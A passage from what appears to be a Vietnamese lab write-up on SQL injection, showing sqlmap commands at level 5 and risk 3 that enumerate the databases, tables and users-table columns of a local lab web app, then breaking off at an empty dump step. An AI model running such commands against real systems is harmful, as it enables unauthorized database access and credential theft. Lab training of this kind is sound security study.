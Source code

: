 Lỗi này về mặt kỹ thuật giải thích rằng có lỗi cú pháp trong DB. Nếu lỗi này xuất hiện, điều đó có nghĩa là biểu mẫu dễ bị tấn công bởi SQLi.
Tiến hành dump Database
Cách 1: SQL map
Liệt kê tên các Database trên server:
```
sqlmap -u "http://192.168.106.131:1337/lab/sql-injection/find-password/?search=" --batch --level 5 --risk 3 --dbs -v 3
```
![alt text](./src/image-7.png)
Liệt kê các bảng trong database:
```
sqlmap -u "http://192.168.106.131:1337/lab/sql-injection/find-password/?search=" --batch --level 5 --risk 3 --dbms=MySQL -D sql_injection --tables
```
![alt text](./src/image-8.png)
Liệt kê các cột của bảng users
```
sqlmap -u "http://192.168.106.131:1337/lab/sql-injection/find-password/?search=" --batch --level 5 --risk 3 --dbms=MySQL -D sql_injection -T users --columns
```
![alt text](./src/image-9.png)
Tiến hành dump bảng user :
```
```